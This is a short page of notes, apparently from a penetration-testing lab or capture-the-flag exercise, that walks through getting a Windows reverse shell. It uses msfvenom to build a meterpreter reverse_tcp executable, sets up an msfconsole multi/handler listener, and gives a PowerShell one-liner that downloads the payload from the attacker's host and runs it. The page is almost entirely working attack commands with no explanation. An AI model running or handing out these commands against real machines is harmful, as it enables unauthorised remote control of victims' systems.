 
msfvenom create rev shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.158 LPORT=1337 -f exe -o rev_shell.exe
```

setup listener with msfconsole
```
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 10.10.14.158
lhost => 10.10.14.158
msf exploit(handler) > set lport 1337
lport => 1337
msf exploit(handler) > run
```

Execute rev shell
```
Invoke-WebRequest -Uri "http://10.10.14.158:8000/rev_shell.exe" -OutFile "C:\rev_shell.exe"; Start-Process "C:\rev_shell.exe"
```